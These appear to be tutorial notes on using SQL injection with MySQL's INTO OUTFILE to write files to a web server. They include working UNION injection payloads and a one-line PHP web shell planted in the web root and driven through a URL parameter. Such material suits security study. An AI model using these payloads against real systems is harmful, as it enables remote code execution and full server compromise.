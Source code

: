 ### Examples

1. **Exporting table data to file**:
```sql
SELECT * FROM users INTO OUTFILE '/tmp/credentials'
```

2. **Writing simple text to file**:
```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt'
```

3. **Writing file through SQL injection**:
```sql
cn' UNION SELECT 1,'file written successfully!',3,4 INTO OUTFILE '/var/www/html/proof.txt'-- -
```

4. **For cleaner output** (without numbers):
```sql
cn' UNION SELECT "",'content here',"","" INTO OUTFILE '/var/www/html/file.txt'-- -
```

## Writing a Web Shell

### Simple PHP Web Shell
```sql
cn' UNION SELECT "",'<?php system($_REQUEST[0]); ?>',"","" INTO OUTFILE '/var/www/html/shell.php'-- -
```

### Executing Commands
- Access the shell via browser: `http://SERVER_IP:PORT/shell.php?0=id`
- Send commands via the `0` parameter

## Important Considerations

### Finding the Web Root
Options to locate web root directory:
- Read server configuration files:
  - Apache: `/etc/apache2/apache2.conf`
  - Nginx: `/etc/nginx/nginx.conf`
  - IIS: `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`
- Use fuzzing to try different common paths
- Look for paths revealed in server error messages

### Advanced Techniques
- For writing binary or complex data, use `FROM_BASE64()`:
```sql
SELECT FROM_BASE64('base64_encoded_data') INTO OUTFILE '/path/to/file'
```

### Security Implications
- File writing capability can lead to:
  - Web shell placement
  - Remote code execution
  - Complete server compromise
  - Modification of existing files

